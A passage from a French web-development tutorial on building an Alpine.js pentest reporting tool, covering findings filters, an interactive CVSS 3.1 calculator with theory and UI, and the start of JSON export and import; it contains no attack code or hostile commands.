    get filteredFindings() {
        let results = this.findings;
        
        // ... filtres existants ...
        
        // Tri final
        results = [...results].sort((a, b) => {
            const dateA = new Date(a.discoveredAt);
            const dateB = new Date(b.discoveredAt);
            
            if (this.filters.sortBy === 'newest') {
                return dateB - dateA; // Décroissant
            } else {
                return dateA - dateB; // Croissant
            }
        });
        
        return results;
    }
    ```
    
    ```html
    <!-- Dropdown tri (dans sidebar ou header) -->
    <div>
        <label class="block text-sm font-medium mb-2">Trier par</label>
        <select x-model="filters.sortBy" 
                class="w-full px-4 py-2 border rounded-lg">
            <option value="newest">Plus récent</option>
            <option value="oldest">Plus ancien</option>
        </select>
    </div>
    ```

### Points Clés à Retenir Phase 3

- 🔑 **Computed property** : `filteredFindings` recalculé automatiquement quand dépendances changent
- 🔑 **Filtres combinables** : Appliqués séquentiellement (search → severity → status → category)
- 🔑 **Debounce** : `x-model.debounce.300ms` pour performance (évite filtrage à chaque frappe)
- 🔑 **Checkboxes multiples** : `x-model` sur tableau ajoute/retire valeurs automatiquement
- 🔑 **États vides** : Différencier "Aucun finding" vs "Aucun résultat filtres"
- 🔑 **Compteurs dynamiques** : `severityCounts` indépendant des filtres (affiche totaux)

### Checkpoint Phase 3

Vérifiez que vous pouvez :

- ✅ Rechercher "SQL" → Affiche uniquement findings avec "SQL" dans titre/description
- ✅ Cocher "Critical" → Affiche uniquement findings critiques
- ✅ Cocher "Critical" + "High" → Affiche les deux sévérités
- ✅ Combiner recherche + filtres → Résultats pertinents
- ✅ Cliquer "Réinitialiser" → Tous filtres effacés
- ✅ Compteur "X vulnérabilités trouvées" mis à jour en temps réel

### Prochaine Étape

Dans la Phase 4, nous allons implémenter le **calculateur CVSS 3.1** interactif pour scorer automatiquement les vulnérabilités.

---

## Phase 4 : CVSS Calculator (1h30)

<div class="omny-meta" data-level="🟡 Intermédiaire → 🔴 Avancé" data-time="1h30"></div>

### Objectifs Phase 4

À la fin de cette phase, vous saurez :

- ✅ Comprendre le système de scoring CVSS 3.1
- ✅ Implémenter un calculateur CVSS interactif
- ✅ Calculer automatiquement le score de vulnérabilité
- ✅ Générer le vecteur CVSS (string)
- ✅ Déterminer la sévérité automatiquement
- ✅ Intégrer le calculateur au formulaire Finding

### 4.1 Théorie CVSS 3.1

!!! info "Qu'est-ce que CVSS ?"
    **CVSS (Common Vulnerability Scoring System)** est un standard industriel pour évaluer la **sévérité** des vulnérabilités informatiques. La version 3.1 utilise **8 métriques** pour produire un **score de 0.0 à 10.0** et une **sévérité qualitative** (None, Low, Medium, High, Critical).
    
    **Utilisé par :** NVD (National Vulnerability Database), CERT, éditeurs logiciels, pentester professionnels

#### Les 8 Métriques CVSS 3.1



**Nous implémentons uniquement les Base Metrics** (les plus importants) :

| Métrique | Abréviation | Valeurs | Impact |
|----------|-------------|---------|--------|
| **Attack Vector** | AV | Network, Adjacent, Local, Physical | Difficulté d'accès |
| **Attack Complexity** | AC | Low, High | Difficulté exploitation |
| **Privileges Required** | PR | None, Low, High | Authentification requise |
| **User Interaction** | UI | None, Required | Action utilisateur nécessaire |
| **Scope** | S | Unchanged, Changed | Impact au-delà du composant vulnérable |
| **Confidentiality** | C | None, Low, High | Impact sur confidentialité |
| **Integrity** | I | None, Low, High | Impact sur intégrité |
| **Availability** | A | None, Low, High | Impact sur disponibilité |

#### Formule de Calcul

**Score final (0.0-10.0) :**

```
Si Impact ≤ 0 :
    Score = 0.0
    
Si Scope Unchanged :
    Score = Roundup(min(10, (Impact + Exploitability)))
    
Si Scope Changed :
    Score = Roundup(min(10, 1.08 × (Impact + Exploitability)))
```

**Impact Sub-Score :**

```
ISC_Base = 1 - [(1 - C) × (1 - I) × (1 - A)]

Si Scope Unchanged :
    ISC = 6.42 × ISC_Base
    
Si Scope Changed :
    ISC = 7.52 × [ISC_Base - 0.029] - 3.25 × [ISC_Base - 0.02]^15
```

**Exploitability Sub-Score :**

```
ESC = 8.22 × AV × AC × PR × UI
```

**Rating (sévérité qualitative) :**

| Score | Rating |
|-------|--------|
| 0.0 | None |
| 0.1-3.9 | Low |
| 4.0-6.9 | Medium |
| 7.0-8.9 | High |
| 9.0-10.0 | Critical |

#### Vecteur CVSS String

**Format :**
```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
```

**Exemple :**
- Attack Vector = Network (N)
- Attack Complexity = Low (L)
- Privileges Required = None (N)
- User Interaction = None (N)
- Scope = Changed (C)
- Confidentiality = High (H)
- Integrity = High (H)
- Availability = High (H)

**→ Score = 10.0 (Critical)**

### 4.2 Implémentation Calculateur

**Fichier :** Créer `assets/js/utils/cvss-calculator.js`

```javascript
/**
 * CVSS 3.1 Calculator
 * Calcul du score de vulnérabilité selon le standard CVSS v3.1
 * Référence : https://www.first.org/cvss/v3.1/specification-document
 */

// Valeurs numériques des métriques
const CVSS_METRICS = {
    // Attack Vector
    AV: {
        N: 0.85,  // Network
        A: 0.62,  // Adjacent
        L: 0.55,  // Local
        P: 0.2    // Physical
    },
    
    // Attack Complexity
    AC: {
        L: 0.77,  // Low
        H: 0.44   // High
    },
    
    // Privileges Required (dépend de Scope)
    PR: {
        U: {  // Scope Unchanged
            N: 0.85,  // None
            L: 0.62,  // Low
            H: 0.27   // High
        },
        C: {  // Scope Changed
            N: 0.85,
            L: 0.68,
            H: 0.50
        }
    },
    
    // User Interaction
    UI: {
        N: 0.85,  // None
        R: 0.62   // Required
    },
    
    // Scope (pas de valeur numérique directe, modifie calcul)
    S: {
        U: 'Unchanged',
        C: 'Changed'
    },
    
    // Confidentiality, Integrity, Availability Impact
    CIA: {
        N: 0.0,   // None
        L: 0.22,  // Low
        H: 0.56   // High
    }
};

/**
 * Calculer le score CVSS 3.1
 * @param {Object} metrics - Objet contenant les 8 métriques
 * @returns {Object} { score: float, rating: string, vector: string }
 */
function calculateCVSS(metrics) {
    // Extraire les valeurs
    const AV = CVSS_METRICS.AV[metrics.AV];
    const AC = CVSS_METRICS.AC[metrics.AC];
    const PR = CVSS_METRICS.PR[metrics.S][metrics.PR]; // (1)!
    const UI = CVSS_METRICS.UI[metrics.UI];
    const S = metrics.S;
    const C = CVSS_METRICS.CIA[metrics.C];
    const I = CVSS_METRICS.CIA[metrics.I];
    const A = CVSS_METRICS.CIA[metrics.A];
    
    // Calcul Exploitability Sub-Score
    const exploitability = 8.22 * AV * AC * PR * UI;
    
    // Calcul Impact Sub-Score Base
    const impactBase = 1 - ((1 - C) * (1 - I) * (1 - A));
    
    let impact;
    if (S === 'U') {
        // Scope Unchanged
        impact = 6.42 * impactBase;
    } else {
        // Scope Changed
        impact = 7.52 * (impactBase - 0.029) - 3.25 * Math.pow(impactBase - 0.02, 15);
    }
    
    // Calcul Score Final
    let score;
    if (impact <= 0) {
        score = 0.0;
    } else {
        if (S === 'U') {
            score = Math.min(10, impact + exploitability);
        } else {
            score = Math.min(10, 1.08 * (impact + exploitability));
        }
        
        // Roundup à 1 décimale (formule CVSS officielle)
        score = Math.ceil(score * 10) / 10; // (2)!
    }
    
    // Déterminer Rating
    const rating = getRating(score);
    
    // Générer vecteur string
    const vector = generateVector(metrics);
    
    return {
        score: score,
        rating: rating,
        vector: vector,
        exploitability: Math.round(exploitability * 10) / 10,
        impact: Math.round(impact * 10) / 10
    };
}

/**
 * Déterminer la sévérité qualitative
 */
function getRating(score) { // (3)!
    if (score === 0.0) return 'None';
    if (score >= 0.1 && score <= 3.9) return 'Low';
    if (score >= 4.0 && score <= 6.9) return 'Medium';
    if (score >= 7.0 && score <= 8.9) return 'High';
    if (score >= 9.0 && score <= 10.0) return 'Critical';
    return 'Unknown';
}

/**
 * Générer le vecteur CVSS string
 */
function generateVector(metrics) {
    return `CVSS:3.1/AV:${metrics.AV}/AC:${metrics.AC}/PR:${metrics.PR}/UI:${metrics.UI}/S:${metrics.S}/C:${metrics.C}/I:${metrics.I}/A:${metrics.A}`;
}

/**
 * Parser un vecteur CVSS string en objet metrics
 */
function parseVector(vectorString) { // (4)!
    const metrics = {
        AV: 'N', AC: 'L', PR: 'N', UI: 'N',
        S: 'U', C: 'N', I: 'N', A: 'N'
    };
    
    if (!vectorString || !vectorString.startsWith('CVSS:3.1/')) {
        return metrics; // Retourner valeurs par défaut
    }
    
    const parts = vectorString.split('/').slice(1); // Enlever "CVSS:3.1"
    
    parts.forEach(part => {
        const [key, value] = part.split(':');
        if (metrics.hasOwnProperty(key)) {
            metrics[key] = value;
        }
    });
    
    return metrics;
}

// Exporter pour utilisation dans Alpine
window.CVSSCalculator = {
    calculate: calculateCVSS,
    parse: parseVector,
    getRating: getRating
};
```

1. **PR dépend de Scope** : Valeur différente si Scope=U ou S=C
2. **Roundup** : Arrondi au dixième supérieur (0.1 → 0.1, 7.21 → 7.3)
3. **Rating** : Conversion score numérique → sévérité qualitative
4. **Parse vector** : Permet de charger un CVSS existant

### 4.3 Composant Alpine CVSS

**Ajouter dans `assets/js/app.js` :**

```javascript
/**
 * Composant CVSS Calculator
 * Calculateur interactif CVSS 3.1
 */
Alpine.data('cvssCalculator', () => ({
    // État des métriques (valeurs par défaut = score 0.0)
    metrics: {
        AV: 'N',  // Attack Vector
        AC: 'L',  // Attack Complexity
        PR: 'N',  // Privileges Required
        UI: 'N',  // User Interaction
        S: 'U',   // Scope
        C: 'N',   // Confidentiality
        I: 'N',   // Integrity
        A: 'N'    // Availability
    },
    
    // Résultat calculé
    result: {
        score: 0.0,
        rating: 'None',
        vector: 'CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:N',
        exploitability: 0.0,
        impact: 0.0
    },
    
    // Descriptions des métriques
    descriptions: {
        AV: {
            N: 'Network - Exploitable à distance via réseau',
            A: 'Adjacent - Réseau local uniquement (LAN, WiFi)',
            L: 'Local - Accès local au système requis',
            P: 'Physical - Accès physique à la machine requis'
        },
        AC: {
            L: 'Low - Peu de conditions requises pour exploitation',
            H: 'High - Conditions spécifiques requises (race condition, etc.)'
        },
        PR: {
            N: 'None - Aucune authentification requise',
            L: 'Low - Authentification basique utilisateur',
            H: 'High - Privilèges administrateur requis'
        },
        UI: {
            N: 'None - Aucune interaction utilisateur nécessaire',
            R: 'Required - Utilisateur doit effectuer une action (clic, etc.)'
        },
        S: {
            U: 'Unchanged - Impact limité au composant vulnérable',
            C: 'Changed - Impact au-delà du composant (escalade privilèges)'
        },
        C: {
            N: 'None - Aucun impact sur la confidentialité',
            L: 'Low - Accès partiel à des données',
            H: 'High - Accès total aux données'
        },
        I: {
            N: 'None - Aucune modification de données possible',
            L: 'Low - Modification limitée de données',
            H: 'High - Modification totale de données'
        },
        A: {
            N: 'None - Aucun impact sur la disponibilité',
            L: 'Low - Performance dégradée',
            H: 'High - Déni de service complet (DoS)'
        }
    },
    
    init() {
        // Calculer au montage
        this.calculate();
        
        // Recalculer automatiquement à chaque changement
        this.$watch('metrics', () => this.calculate(), { deep: true }); // (1)!
    },
    
    /**
     * Calculer le score CVSS
     */
    calculate() {
        if (window.CVSSCalculator) {
            this.result = window.CVSSCalculator.calculate(this.metrics);
        } else {
            console.error('CVSSCalculator not loaded');
        }
    },
    
    /**
     * Charger depuis vecteur string
     */
    loadVector(vectorString) {
        if (window.CVSSCalculator) {
            this.metrics = window.CVSSCalculator.parse(vectorString);
            this.calculate();
        }
    },
    
    /**
     * Reset au score minimum
     */
    reset() {
        this.metrics = {
            AV: 'N', AC: 'L', PR: 'N', UI: 'N',
            S: 'U', C: 'N', I: 'N', A: 'N'
        };
    },
    
    /**
     * Appliquer au finding actuel
     */
    applyToFinding() {
        // Dispatcher événement avec résultat
        this.$dispatch('cvss-calculated', { // (2)!
            cvss: {
                version: '3.1',
                vector: this.result.vector,
                score: this.result.score,
                rating: this.result.rating
            }
        });
    },
    
    /**
     * Couleur du badge selon rating
     */
    get badgeColor() { // (3)!
        const colors = {
            'None': 'bg-gray-500',
            'Low': 'bg-green-500',
            'Medium': 'bg-yellow-500',
            'High': 'bg-orange-500',
            'Critical': 'bg-red-500'
        };
        return colors[this.result.rating] || 'bg-gray-500';
    }
}));
```

1. **Deep watch** : Observer changements dans objet imbriqué `metrics`
2. **Custom event** : Permet au composant parent (finding form) de récupérer le résultat
3. **Computed color** : Badge couleur selon sévérité

### 4.4 Interface Calculateur

**Template Modal CVSS (à ajouter dans `index.html`) :**

```html
<!-- Modal CVSS Calculator -->
<div x-data="{ get isOpen() { return $data.modalCVSS }, close() { $data.modalCVSS = false } }">
    <template x-if="isOpen">
        <div class="fixed inset-0 z-50 flex items-center justify-center p-4"
             x-transition>
            
            <!-- Backdrop -->
            <div @click="close()" class="absolute inset-0 bg-black bg-opacity-50"></div>
            
            <!-- Modal -->
            <div x-data="cvssCalculator()" <!--(1)!-->
                 @cvss-calculated.window="
                    $data.form.cvss = $event.detail.cvss;
                    $data.modalCVSS = false;
                 " <!--(2)!-->
                 @click.stop
                 x-trap="isOpen"
                 class="relative bg-white dark:bg-gray-800 rounded-lg shadow-xl max-w-5xl w-full max-h-[90vh] overflow-y-auto">
                
                <!-- Header -->
                <div class="sticky top-0 bg-white dark:bg-gray-800 border-b px-6 py-4 flex items-center justify-between z-10">
                    <div>
                        <h2 class="text-xl font-semibold text-gray-900 dark:text-white">
                            Calculateur CVSS 3.1
                        </h2>
                        <p class="text-sm text-gray-500">Common Vulnerability Scoring System</p>
                    </div>
                    <button @click="close()">
                        <svg class="w-6 h-6" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                        </svg>
                    </button>
                </div>
                
                <div class="px-6 py-6">
                    
                    <!-- Score Actuel (Sticky) -->
                    <div class="mb-6 p-6 bg-gradient-to-r from-blue-50 to-indigo-50 dark:from-gray-700 dark:to-gray-600 rounded-lg border border-blue-200 dark:border-gray-600">
                        <div class="flex items-center justify-between">
                            <div>
                                <p class="text-sm text-gray-600 dark:text-gray-300 mb-2">Score CVSS</p>
                                <div class="flex items-baseline gap-3">
                                    <span class="text-5xl font-bold text-gray-900 dark:text-white" 
                                          x-text="result.score.toFixed(1)"></span>
                                    <span class="px-4 py-2 rounded-full text-sm font-semibold text-white"
                                          :class="badgeColor"
                                          x-text="result.rating"></span>
                                </div>
                            </div>
                            <div class="text-right">
                                <p class="text-sm text-gray-600 dark:text-gray-300 mb-1">Exploitability</p>
                                <p class="text-2xl font-semibold text-gray-900 dark:text-white" 
                                   x-text="result.exploitability.toFixed(1)"></p>
                                <p class="text-sm text-gray-600 dark:text-gray-300 mb-1 mt-3">Impact</p>
                                <p class="text-2xl font-semibold text-gray-900 dark:text-white" 
                                   x-text="result.impact.toFixed(1)"></p>
                            </div>
                        </div>
                        
                        <!-- Vecteur -->
                        <div class="mt-4 pt-4 border-t border-blue-200 dark:border-gray-500">
                            <p class="text-xs text-gray-500 dark:text-gray-400 mb-1">Vecteur CVSS</p>
                            <code class="block p-2 bg-white dark:bg-gray-900 rounded text-xs font-mono text-gray-800 dark:text-gray-200"
                                  x-text="result.vector"></code>
                        </div>
                    </div>
                    
                    <!-- Métriques (Grid 2 colonnes) -->
                    <div class="grid grid-cols-1 lg:grid-cols-2 gap-6">
                        
                        <!-- Exploitability Metrics -->
                        <div class="space-y-6">
                            <h3 class="text-lg font-semibold text-gray-900 dark:text-white border-b pb-2">
                                Exploitability Metrics
                            </h3>
                            
                            <!-- Attack Vector -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    Attack Vector (AV)
                                </label>
                                <select x-model="metrics.AV"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="N">Network (N)</option>
                                    <option value="A">Adjacent (A)</option>
                                    <option value="L">Local (L)</option>
                                    <option value="P">Physical (P)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.AV[metrics.AV]"></p>
                            </div>
                            
                            <!-- Attack Complexity -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    Attack Complexity (AC)
                                </label>
                                <select x-model="metrics.AC"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="L">Low (L)</option>
                                    <option value="H">High (H)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.AC[metrics.AC]"></p>
                            </div>
                            
                            <!-- Privileges Required -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    Privileges Required (PR)
                                </label>
                                <select x-model="metrics.PR"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="N">None (N)</option>
                                    <option value="L">Low (L)</option>
                                    <option value="H">High (H)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.PR[metrics.PR]"></p>
                            </div>
                            
                            <!-- User Interaction -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    User Interaction (UI)
                                </label>
                                <select x-model="metrics.UI"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="N">None (N)</option>
                                    <option value="R">Required (R)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.UI[metrics.UI]"></p>
                            </div>
                            
                        </div>
                        
                        <!-- Impact Metrics -->
                        <div class="space-y-6">
                            <h3 class="text-lg font-semibold text-gray-900 dark:text-white border-b pb-2">
                                Impact Metrics
                            </h3>
                            
                            <!-- Scope -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    Scope (S)
                                </label>
                                <select x-model="metrics.S"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="U">Unchanged (U)</option>
                                    <option value="C">Changed (C)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.S[metrics.S]"></p>
                            </div>
                            
                            <!-- Confidentiality -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    Confidentiality (C)
                                </label>
                                <select x-model="metrics.C"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="N">None (N)</option>
                                    <option value="L">Low (L)</option>
                                    <option value="H">High (H)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.C[metrics.C]"></p>
                            </div>
                            
                            <!-- Integrity -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    Integrity (I)
                                </label>
                                <select x-model="metrics.I"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="N">None (N)</option>
                                    <option value="L">Low (L)</option>
                                    <option value="H">High (H)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.I[metrics.I]"></p>
                            </div>
                            
                            <!-- Availability -->
                            <div>
                                <label class="block text-sm font-medium mb-2 text-gray-700 dark:text-gray-300">
                                    Availability (A)
                                </label>
                                <select x-model="metrics.A"
                                        class="w-full px-4 py-2 border rounded-lg bg-white dark:bg-gray-700">
                                    <option value="N">None (N)</option>
                                    <option value="L">Low (L)</option>
                                    <option value="H">High (H)</option>
                                </select>
                                <p class="text-xs text-gray-500 mt-1" 
                                   x-text="descriptions.A[metrics.A]"></p>
                            </div>
                            
                        </div>
                        
                    </div>
                    
                </div>
                
                <!-- Footer Actions -->
                <div class="sticky bottom-0 bg-gray-50 dark:bg-gray-900 px-6 py-4 flex justify-between border-t">
                    <button @click="reset()"
                            class="px-4 py-2 text-gray-700 dark:text-gray-300 hover:bg-gray-200 dark:hover:bg-gray-700 rounded-lg">
                        Réinitialiser
                    </button>
                    <div class="flex gap-3">
                        <button @click="close()"
                                class="px-6 py-2 border border-gray-300 rounded-lg hover:bg-gray-50">
                            Annuler
                        </button>
                        <button @click="applyToFinding()"
                                class="px-6 py-2 bg-blue-600 text-white rounded-lg hover:bg-blue-700">
                            Appliquer au Finding
                        </button>
                    </div>
                </div>
                
            </div>
        </div>
    </template>
</div>
```

1. **Composant CVSS** : Instance du calculateur CVSS
2. **Event listener** : Écoute `cvss-calculated` et applique au form.cvss

### 4.5 Intégration au Formulaire Finding

**Modifier le formulaire d'ajout/édition (après le champ "Catégorie") :**

```html
<!-- Après Catégorie & Découvreur -->
<!-- Score CVSS -->
<div class="col-span-2 border-t pt-6">
    <div class="flex items-center justify-between mb-4">
        <div>
            <label class="block text-sm font-medium mb-1">Score CVSS 3.1</label>
            <p class="text-xs text-gray-500">Calculer le score de sévérité</p>
        </div>
        <button type="button"
                @click="modalCVSS = true"
                class="px-4 py-2 bg-indigo-600 text-white rounded-lg hover:bg-indigo-700 flex items-center gap-2">
            <svg class="w-4 h-4" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M9 7h6m0 10v-3m-3 3h.01M9 17h.01M9 14h.01M12 14h.01M15 11h.01M12 11h.01M9 11h.01M7 21h10a2 2 0 002-2V5a2 2 0 00-2-2H7a2 2 0 00-2 2v14a2 2 0 002 2z"></path>
            </svg>
            Calculer CVSS
        </button>
    </div>
    
    <!-- Affichage CVSS si calculé -->
    <div x-show="form.cvss" 
         x-transition
         class="p-4 bg-blue-50 dark:bg-gray-700 rounded-lg">
        <div class="flex items-center justify-between">
            <div>
                <span class="text-sm text-gray-600 dark:text-gray-400">Score :</span>
                <span class="text-2xl font-bold mx-2" x-text="form.cvss?.score.toFixed(1)"></span>
                <span class="px-3 py-1 rounded-full text-xs font-semibold"
                      :class="{
                          'bg-red-500 text-white': form.cvss?.score >= 9.0,
                          'bg-orange-500 text-white': form.cvss?.score >= 7.0 && form.cvss?.score < 9.0,
                          'bg-yellow-500 text-black': form.cvss?.score >= 4.0 && form.cvss?.score < 7.0,
                          'bg-green-500 text-white': form.cvss?.score < 4.0
                      }"
                      x-text="form.cvss?.rating"></span>
            </div>
            <button type="button"
                    @click="form.cvss = null"
                    class="text-red-600 hover:text-red-700 text-sm">
                Supprimer
            </button>
        </div>
        <code class="block mt-2 p-2 bg-white dark:bg-gray-900 rounded text-xs font-mono"
              x-text="form.cvss?.vector"></code>
    </div>
</div>
```

**Ajouter `modalCVSS` dans l'état `pentestApp()` :**

```javascript
// Dans pentestApp()
modalAdd: false,
modalCVSS: false, // Nouvelle modal CVSS
```

**Charger le script CVSS dans `index.html` avant Alpine :**

```html
<!-- Avant Alpine.js Core -->
<script src="assets/js/utils/cvss-calculator.js"></script>
<script defer src="https://cdn.jsdelivr.net/npm/alpinejs@3.x.x/dist/cdn.min.js"></script>
```

### 4.6 Exercice Pratique Phase 4

!!! question "Mission : Ajouter Presets CVSS"
    Ajoutez des boutons "Preset" dans le calculateur pour charger rapidement des configurations typiques (ex: "XSS Reflected", "SQL Injection Critical", "CSRF").
    
    **Objectifs :**
    - 3-5 presets de vulnérabilités courantes
    - Boutons dans le calculateur
    - Un clic charge les métriques correspondantes
    
    **Indices :**
    1. Créer objet `presets` dans composant cvssCalculator
    2. Bouton avec `@click="loadPreset('xss')"`
    3. Méthode `loadPreset(name)` qui fait `this.metrics = presets[name]`

??? success "Solution"
    ```javascript
    // Dans cvssCalculator()
    presets: {
        xss_reflected: {
            name: 'XSS Reflected',
            metrics: { AV: 'N', AC: 'L', PR: 'N', UI: 'R', S: 'C', C: 'L', I: 'L', A: 'N' }
        },
        sql_injection_critical: {
            name: 'SQL Injection Critical',
            metrics: { AV: 'N', AC: 'L', PR: 'N', UI: 'N', S: 'C', C: 'H', I: 'H', A: 'H' }
        },
        csrf: {
            name: 'CSRF',
            metrics: { AV: 'N', AC: 'L', PR: 'N', UI: 'R', S: 'U', C: 'N', I: 'L', A: 'N' }
        },
        broken_auth: {
            name: 'Broken Authentication',
            metrics: { AV: 'N', AC: 'L', PR: 'N', UI: 'N', S: 'U', C: 'H', I: 'H', A: 'N' }
        }
    },
    
    loadPreset(presetName) {
        const preset = this.presets[presetName];
        if (preset) {
            this.metrics = { ...preset.metrics };
        }
    }
    ```
    
    ```html
    <!-- Dans le modal CVSS, après le header -->
    <div class="px-6 py-3 bg-gray-50 dark:bg-gray-700 border-b">
        <p class="text-xs text-gray-500 mb-2">Presets rapides :</p>
        <div class="flex flex-wrap gap-2">
            <template x-for="(preset, key) in presets" :key="key">
                <button type="button"
                        @click="loadPreset(key)"
                        class="px-3 py-1 bg-white dark:bg-gray-600 border rounded-lg text-xs hover:bg-blue-50 dark:hover:bg-gray-500">
                    <span x-text="preset.name"></span>
                </button>
            </template>
        </div>
    </div>
    ```

### Points Clés à Retenir Phase 4

- 🔑 **CVSS 3.1** : 8 métriques base (Exploitability + Impact)
- 🔑 **Formule complexe** : Encapsulée dans fonction pure `calculateCVSS()`
- 🔑 **Réactivité** : `$watch` deep pour recalcul automatique
- 🔑 **Custom events** : Communication entre calculateur et formulaire
- 🔑 **Vecteur string** : Format standard CVSS:3.1/AV:N/AC:L/...
- 🔑 **Rating automatique** : Conversion score → sévérité qualitative
- 🔑 **Scope influence PR** : Valeur PR dépend de Scope (U ou C)

### Checkpoint Phase 4

Vérifiez que vous pouvez :

- ✅ Ouvrir modal CVSS depuis formulaire Finding
- ✅ Modifier une métrique → Score recalculé immédiatement
- ✅ Vecteur CVSS généré dynamiquement
- ✅ Cliquer "Appliquer" → CVSS ajouté au Finding
- ✅ Finding sauvegardé affiche badge CVSS dans la card
- ✅ Score 10.0 (Critical) affiché correctement en rouge

### Prochaine Étape

Dans la Phase 5, nous allons améliorer la **persistence** avec import/export JSON et gestion avancée du stockage.

---

## Phase 5 : Persistence Avancée (1h30)

<div class="omny-meta" data-level="🟡 Intermédiaire" data-time="1h30"></div>

### Objectifs Phase 5

À la fin de cette phase, vous saurez :

- ✅ Gérer plusieurs stores persistants (findings, settings, filters)
- ✅ Implémenter import/export JSON
- ✅ Valider les données importées
- ✅ Gérer les limites de LocalStorage (quota)
- ✅ Nettoyer les données obsolètes
- ✅ Créer des backups automatiques

### 5.1 Architecture Persistence



### 5.2 Settings Persistants

**Ajout dans `pentestApp()` :**

```javascript
// État settings globaux
settings: Alpine.$persist({
    autoSave: true,
    notifications: true,
    theme: 'light', // Redondant avec store theme, mais pour export complet
    defaultSeverity: 'medium',
    defaultStatus: 'open',
    defaultDiscoveredBy: '', // Nom du pentester par défaut
    language: 'fr',
    dateFormat: 'fr-FR', // Format dates
    exportFormat: 'markdown' // Format export par défaut
}).as('app-settings'),

// Méthode pour mettre à jour settings
updateSetting(key, value) {
    this.settings[key] = value;
    console.log(`Setting ${key} updated:`, value);
},
```

### 5.3 Export JSON Complet

**Fichier :** Créer `assets/js/utils/export.js`

```javascript
/**
 * Module Export/Import
 * Gestion export/import données JSON
 */

/**
 * Exporter toutes les données en JSON
 */
function exportAllData() {
    const data = {
        version: '1.0.0', // (1)!
        exportedAt: new Date().toISOString(),
        findings: JSON.parse(localStorage.getItem('findings') || '[]'),
        settings: JSON.parse(localStorage.getItem('app-settings') || '{}'),
        metadata: {
            totalFindings: JSON.parse(localStorage.getItem('findings') || '[]').length,
            appName: 'Pentest Reporting Tool',
            appVersion: '1.0.0'
        }
    };
    
    return data;
}

/**
 * Télécharger données en fichier JSON
 */
function downloadJSON(filename = 'pentest-findings-export.json') {
    const data = exportAllData();
    const jsonString = JSON.stringify(data, null, 2); // (2)!
    const blob = new Blob([jsonString], { type: 'application/json' });
    const url = URL.createObjectURL(blob);
    
    // Créer lien téléchargement temporaire
    const a = document.createElement('a');
    a.href = url;
    a.download = filename;
    document.body.appendChild(a);
    a.click();
    
    // Cleanup
    document.body.removeChild(a);
    URL.revokeObjectURL(url); // (3)!
    
    console.log(`Export réussi : ${filename}`);
}

/**
 * Valider structure JSON importé
 */
function validateImportData(data) { // (4)!
    const errors = [];
    
    // Vérifier version
    if (!data.version) {
        errors.push('Version manquante');
    }
    
    // Vérifier findings
    if (!Array.isArray(data.findings)) {
        errors.push('findings doit être un tableau');
    } else {
        // Valider chaque finding
        data.findings.forEach((finding, index) => {
            if (!finding.id) errors.push(`Finding ${index}: ID manquant`);
            if (!finding.title) errors.push(`Finding ${index}: Titre manquant`);
            if (!finding.severity) errors.push(`Finding ${index}: Sévérité manquante`);
            
            // Valider sévérité
            const validSeverities = ['critical', 'high', 'medium', 'low', 'info'];
            if (!validSeverities.includes(finding.severity)) {
                errors.push(`Finding ${index}: Sévérité invalide (${finding.severity})`);
            }
        });
    }
    
    return {
        valid: errors.length === 0,
        errors: errors
    };
}

/**
 * Importer données depuis JSON
 */
function importFromJSON(jsonData, strategy = 'merge') { // (5)!
    // Valider
    const validation = validateImportData(jsonData);
    if (!validation.valid) {
        throw new Error(`Validation échouée : ${validation.errors.join(', ')}`);
    }
    
    // Récupérer données actuelles
    const currentFindings = JSON.parse(localStorage.getItem('findings') || '[]');
    
    let finalFindings;
    
    if (strategy === 'replace') {
        // Remplacer complètement
        finalFindings = jsonData.findings;
    } else if (strategy === 'merge') {
        // Merger : garder existants + ajouter nouveaux (éviter doublons par ID)
        const existingIds = new Set(currentFindings.map(f => f.id));
        const newFindings = jsonData.findings.filter(f => !existingIds.has(f.id));
        finalFindings = [...currentFindings, ...newFindings];
    }
    
    // Sauvegarder
    localStorage.setItem('findings', JSON.stringify(finalFindings));
    
    // Importer settings si présents
    if (jsonData.settings) {
        localStorage.setItem('app-settings', JSON.stringify(jsonData.settings));
    }
    
    return {
        imported: jsonData.findings.length,
        total: finalFindings.length,
        strategy: strategy
    };
}

/**
 * Lire fichier JSON uploadé
 */
function readJSONFile(file) { // (6)!
